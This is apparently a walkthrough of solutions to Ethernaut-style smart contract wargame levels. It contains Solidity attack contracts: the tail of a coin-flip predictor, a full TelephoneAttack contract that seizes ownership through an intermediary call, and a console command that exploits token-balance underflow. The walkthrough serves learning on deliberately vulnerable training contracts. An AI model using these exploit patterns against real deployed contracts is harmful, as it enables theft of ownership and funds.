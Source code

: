 ```
        bool side = coinFlip == 1 ? true : false;
        _v.flip(side);
    }
}
```

Deploy `CoinFlipAttack.sol` with params:<br>
- address: `contract.address` get on console window

Click button flip least 10 times

console:

`await contract.consecutiveWins()` <br>

check `words` property is `[10, anything_there]`

===> submit level
<br>

### Telephone
`Telephone.sol` ==> create and copy content of this level.<br>
`TelephoneAttack.sol`
```
pragma solidity ^0.8.0;
import './Telephone.sol';

contract TelephoneAttack {

    Telephone w;
    
    constructor(address t) public {
        w = Telephone(t);
    }

    function attack(address _a) public {
        w.changeOwner(_a);
    }
}
```

Deploy with params:<br>
- address: `contract.address` get on console window

click `attack` button with param is player address
<br>
check `contract.address` will be player address

===> submit level

### Token
console
```
//any_address but don't use player address
contract.transfer('<any_address>', 20 + 1);
```
